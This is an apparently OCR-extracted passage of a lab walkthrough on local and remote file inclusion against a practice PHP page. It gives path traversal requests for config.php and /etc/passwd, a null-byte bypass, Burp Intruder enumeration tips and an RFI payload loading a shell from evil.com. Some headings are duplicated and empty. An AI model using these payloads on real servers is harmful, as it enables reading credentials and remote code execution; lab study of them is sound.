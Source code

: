         GET /labs/fi0x01.php?filename=../../../../../var/www/html/config.php HTTP/1.1
        Host: localhost
        
        ## EXPECTED OUTPUT : 
        											
        ```
        
        > Pro Tip: Use **Burp Intruder with a wordlist** (e.g., SecLists file paths like /etc/passwd, /var/www/html/flag.txt) to automate file enumeration. Set the payload position to filename=§§ and look for responses with content (not errors).
        
          
        

### Step 3: Bypass Potential Filters

  

- ==**Your ../../../../../etc/passwd**== worked ==**without encoding or tricks, suggesting minimal filtering**==. But let’s test for common restrictions in case the lab throws curveballs for other files (e.g., appending .txt due to chocolate_cake.txt or blocking certain paths).

  

- ==**Test for Extension Appending:**==
    
    1. ==**Try Null Byte Injection (for older PHP <5.3.4)**==
    
    ```Bash
    ## REQUEST : 
    
    GET /labs/fi0x01.php?filename=../../../../../etc/passwd%00 HTTP/1.1
    Host: localhost
    ```
    
    - **Why**: %00 truncates .txt if appended (e.g., /etc/passwd.txt becomes /etc/passwd).
    - **Note**: Unlikely in modern PHP but possible in lab VMs.

### Step 4: Confirm LFI Vulnerability ✅

  

### Step 5: Confirm LFI Vulnerability ✅

  

  

## ==What is RFI?==

- RFI occurs when an attacker ==**includes a remote file hosted on a different server**== — this can lead directly to **remote code execution**.

```Markdown

# EXAMPLE PAYLOAD : 

	- http://example.com/index.php?page=http://evil.com/shell.txt
```